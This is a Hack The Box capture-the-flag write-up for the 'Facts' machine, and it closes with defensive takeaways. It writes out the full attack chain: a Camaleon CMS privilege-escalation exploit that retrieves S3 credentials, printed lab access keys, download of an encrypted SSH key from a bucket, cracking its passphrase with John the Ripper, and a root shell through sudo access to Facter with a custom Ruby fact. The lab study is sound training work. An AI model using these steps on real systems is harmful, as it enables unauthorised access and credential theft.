



# Facts


!!! note "Replaceable banner"
    Replace `images/banner.png` in this box folder with the final Facts artwork. The page already points to that filename.

| Field | Value |
| --- | --- |
| Status | Completed — May 2, 2026 |
| Difficulty | Easy |
| Focus | AWS, Linux, Web |
| Machine | [Facts on Hack The Box](https://app.hackthebox.com/machines/Facts?sort_by=created_at&sort_type=desc) |

## Attack path

1. Enumerate SSH, HTTP and the MinIO-compatible service on port 54321.
2. Identify Camaleon CMS 2.9.0 and use the privilege-escalation proof of concept to obtain S3 credentials.
3. Browse the internal S3 bucket and retrieve the `trivia` user's encrypted SSH key.
4. Crack the SSH-key passphrase and log in as `trivia`.
5. Abuse passwordless sudo access to `/usr/bin/facter` with a custom Ruby fact and obtain root.

## 1. Reconnaissance

The scan exposed the following services:

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan <TARGET_IP>
```

| Port | Service | Observation |
| ---: | --- | --- |
| 22/tcp | SSH | OpenSSH 9.9p1 on Ubuntu. |
| 80/tcp | HTTP | Nginx-hosted web application. |
| 54321/tcp | HTTP/MinIO | S3-compatible object-storage endpoint. |

The supplied screenshots document the three reconnaissance views in order.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 1.</strong> The first web and service-enumeration view for Facts.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 2.</strong> The second reconnaissance view from the completed machine session.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 3.</strong> The third reconnaissance view used to confirm the web and storage attack surface.</figcaption>
</figure>

## 2. Escalate Camaleon CMS and extract storage credentials

The source notes identify Camaleon CMS 2.9.0 and use a proof of concept to authenticate, elevate the application role and extract the S3 configuration. The important sequence is:

```bash
python3 exploit.py \
  -u http://facts.htb \
  -U hello123 \
  -P 'Admin@123!' \
  -e
```

A successful run reports the CSRF-token exchange, login, role update and S3 endpoint. The lab credentials and endpoint recorded in the source notes are:

```text
s3_access_key: AKIA0BCAE891CB6A9209
s3_secret_key: gLnvKRmGgoDyLTeAvyErqvdijc8WVFLJhNgj0Uiu
s3_endpoint: http://localhost:54321
```

Configure the AWS client with the credentials returned by the exploit. When the service is exposed through the target hostname, use the target as the endpoint URL:

```bash
aws configure

aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal/
```

The internal bucket contains the `trivia` user's home data, including `.ssh/authorized_keys` and an encrypted `id_ed25519` key. Retrieve the relevant files for offline analysis:

```bash
aws --endpoint-url http://facts.htb:54321 \
  s3 cp s3://internal/.ssh/authorized_keys ./authorized_keys

aws --endpoint-url http://facts.htb:54321 \
  s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519
```

## 3. Crack the SSH-key passphrase

Convert the OpenSSH key into a John the Ripper format and run the supplied wordlist:

```bash
ssh2john id_ed25519 > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

The completed run recovered the passphrase recorded in the source notes:

```text
dragonballz
```

Use the key to log in as `trivia`:

```bash
chmod 600 id_ed25519
ssh -i id_ed25519 trivia@facts.htb
```

The user flag was verified from `/home/william/user.txt`; its value is redacted here:

```bash
trivia@facts:/home/william$ cat user.txt
<USER_FLAG_REDACTED>
```

## 4. Abuse Facter sudo permissions

Check the allowed sudo commands:

```bash
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

Facter loads custom facts from a directory. Create a Ruby fact that executes a shell, then invoke Facter as root with that directory:

```bash
cat > bash.rb <<'RUBY'
exec "/bin/bash"
RUBY

sudo /usr/bin/facter --custom-dir /home/trivia bash
```

The command returns a root shell because the custom fact is evaluated by the privileged Facter process:

```bash
root@facts:/home/trivia# whoami
root

root@facts:~# cat /root/root.txt
<ROOT_FLAG_REDACTED>
```

## Takeaways

- Treat CMS privilege escalation findings as a path to the application secrets, not necessarily the final shell.
- Lock down object-storage endpoints and never expose private SSH material through a readable bucket.
- Review `sudo -l` entries for interpreters and tools that load scripts or plugins from attacker-controlled paths.
- A passwordless sudo rule for Facter becomes code execution as root when custom facts are not constrained.
